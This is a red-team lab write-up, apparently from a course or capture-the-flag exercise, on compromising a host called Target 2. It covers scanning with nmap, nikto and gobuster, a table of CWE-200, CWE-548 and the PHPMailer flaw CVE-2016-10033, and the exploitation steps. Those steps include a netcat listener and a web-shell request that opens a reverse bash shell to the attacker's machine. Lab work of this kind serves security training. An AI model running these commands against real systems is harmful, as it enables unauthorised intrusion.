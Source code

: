 # **Red Team: Summary of Operations**

## TARGET 2

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

nmap -sV 192.168.1.115

![1](/Images/4/1.PNG)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** Exposure of sensitive Information to an unauthorized actor | The product exposes sensitive Information to an actor that is not explicitly authorized to have access | Allowing sensitive information to be compromised so easily can result in a breach that can have significant effects on your business
**CWE-548** Exposure of information through directory browsing | A directory listing is inappropriately exposed, yielding potentially sensitive information to attackers | Allowing an bad actor to obtain more information about your server could allow them to further their attack
**CVE-2016-10033** Remote Code Execution Vulnerability in PHPMailer | HPMailer allows extra parameters in the mail command and consequently executes arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

# Exploitation

The Red Team was able to penetrate Target 2 and retrieve the following confidential data:

**flag1:**  `flag1{a2c1f66d28051bd3a5874b5b6r43e21}`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    1. `nikto -C all -h 192.168.1.115`

        ![2](/Images/4/2.PNG)

    2. `gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -e -u http://192.168.1.115`
    
        ![3](/Images/4/3.PNG)
    
    3. Important Files Discovered
     
        ![4](/Images/4/4.PNG)     
          
     **Flag1**

    ![5](/Images/4/5.PNG)

    **List of vulnerabilities**

    ![6](/Images/4/6.PNG)    

    **phpmailer version**

    ![7](/Images/4/7.PNG)  

    4. `searchsploit phpmailer`

     ![8](/Images/4/8.PNG)  

    4. `sudo chmod 777 exploit.sh`

    5. `./exploit.sh`

    6. In kali: `nc -lnvp 4444`

    7. `192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 -e /bin/bash`

    ![14](/Images/1/14.png)

    8. `Find /var/www -type f -name .flag*’`

    9. Go to browser and put `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`

    ![15](/Images/1/15.png)